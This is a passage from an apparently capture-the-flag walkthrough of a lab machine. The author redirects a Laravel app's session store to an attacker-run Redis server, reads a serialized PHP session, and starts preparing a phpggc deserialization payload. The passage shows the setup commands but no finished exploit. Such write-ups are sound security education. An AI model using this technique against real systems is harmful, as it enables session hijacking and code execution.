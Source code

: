 ![image-20220629132544985](https://0xdfimages.gitlab.io/img/image-20220629132544985.png)

It’s worth noting that this config change gets reset pretty quickly, which is
likely some kind of cleanup script to allow for multiple players to exploit
this at the same time on the same host.

#### Configure Redis

I’ll need a copy of a Redis server locally to exploit this. I’ll install it
with `sudo apt install redis-server -y` . I don’t want this to run regularly,
so I’ll stop and disable the service (`sudo systemctl stop redis-server` and
`sudo systemctl disable redis-server`), and run it in the foreground from the
command line. I’ll start the server with `--protected-mode no` so that it
listens on more than just local host:

    
    
    oxdf@hacky$ redis-server --protected-mode no
    95298:C 29 Jun 2022 16:49:58.756 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
    95298:C 29 Jun 2022 16:49:58.756 # Redis version=5.0.7, bits=64, commit=00000000, modified=0, pid=95298, just started
    ...[snip]...
    

Now it’s listening on all interfaces:

    
    
    oxdf@hacky$ sudo netstat -tnlp | grep 6379
    tcp        0      0 0.0.0.0:6379            0.0.0.0:*               LISTEN      95298/redis-server  
    tcp6       0      0 :::6379                 :::*                    LISTEN      95298/redis-server
    

I’ll connect to this server, and see there are no keys:

    
    
    oxdf@hacky$ redis-cli 
    127.0.0.1:6379> keys *
    (empty list or set)
    

If I re-poison the `.env` (it’s timed out by now), and then refresh the login
page in the private window, there’s now a session cached:

    
    
    127.0.0.1:6379> keys *
    1) "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
    127.0.0.1:6379> get "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
    "s:197:\"a:3:{s:6:\"_token\";s:40:\"R53GMtfMIuQmJIF3YtfQO31InoSm4faU3FtZmGJ9\";s:9:\"_previous\";a:1:{s:3:\"url\";s:39:\"http://status.catch.htb:8000/auth/login\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}\";"
    

I’ll recognize that result as a serialized PHP object.

#### POC

[PHP Generic Gadget Chains](https://github.com/ambionics/phpggc), or `phpggc`,
is a tool for creating serialized attack payloads. I’ll `git clone` it into my
`/opt` directory.
